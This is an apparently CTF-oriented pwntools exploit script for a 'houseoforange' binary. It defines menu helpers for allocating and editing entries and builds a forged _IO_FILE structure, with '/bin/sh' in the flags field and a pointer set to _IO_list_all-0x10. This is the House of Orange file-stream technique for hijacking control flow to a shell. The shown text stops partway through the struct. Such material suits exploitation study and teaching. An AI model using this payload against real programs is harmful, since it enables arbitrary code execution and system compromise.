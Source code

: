 

```python
#!/usr/bin/env python
from pwn import *

# context.log_level = "debug"

s = lambda buf: p.send(buf)
sl = lambda buf: p.sendline(buf)
sa = lambda delim, buf: p.sendafter(delim, buf)
sal = lambda delim, buf: p.sendlineafter(delim, buf)
sh = lambda: p.interactive()
r = lambda n=None: p.recv(n)
ra = lambda t=tube.forever:p.recvall(t)
ru = lambda delim: p.recvuntil(delim)
rl = lambda: p.recvline()
rls = lambda n=2**20: p.recvlines(n)

p = process("./houseoforange")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add(size,name):
	sal("Your choice : ","1")
	sal("Length of name :",str(size))
	sal("Name :",name)
	sal("Price of Orange:",str(0x10))
	sal("Color of Orange:",str(1))
def show():
	sal("Your choice : ","2")
def edit(size,name):
	sal("Your choice : ","3")
	sal("Length of name :",str(size))
	sal("Name:",name)
	sal("Price of Orange:",str(0x10))
	sal("Color of Orange:",str(1))
def file1():
	file= "/bin/sh\x00"                        #_flags
	file+=p64(0x61)                       #_IO_read_ptr
	file+=p64(0)                       #_IO_read_end
	file+=p64(libc.sym["_IO_list_all"]-0x10)                       #_IO_read_base
	file+=p64(0)                       #_IO_write_base
	file+=p64(1)                       #_IO_write_ptr
	file+=p64(0)                       #_IO_write_end
	file+=p64(0)                       #_IO_buf_base
	file+=p64(0)                       #_IO_buf_end
	file+=p64(0)                       #_IO_save_base
	file+=p64(0)                       #_IO_backup_base
	file+=p64(0)                       #_IO_save_end
	file+=p64(0)                       #_markers
	file+=p64(0)                       #chain   could be a anathor file struct
	file+=p32(0)                       #_fileno
	file+=p32(0)                       #_flags2
	file+=p64(0)                       #_old_offset
	file+=p16(0)                       #_cur_column
	file+=p8(0)                        #_vtable_offset
	file+=p8(0)                        #_shortbuf[0]
	file+=p32(0)                       #_shortbuf[1]
	file+=p64(0)                       #_lock
	file+=p64(0)                       #_offset
	file+=p64(0)                       #_codecvt
	file+=p64(0)                       #_wide_data
	file+=p64(0)                       #_freeres_list
	file+=p64(0)                       #_freeres_buf
	file+=p64(0)                       #__pad5
	file+=p32(0)                       #_mode
```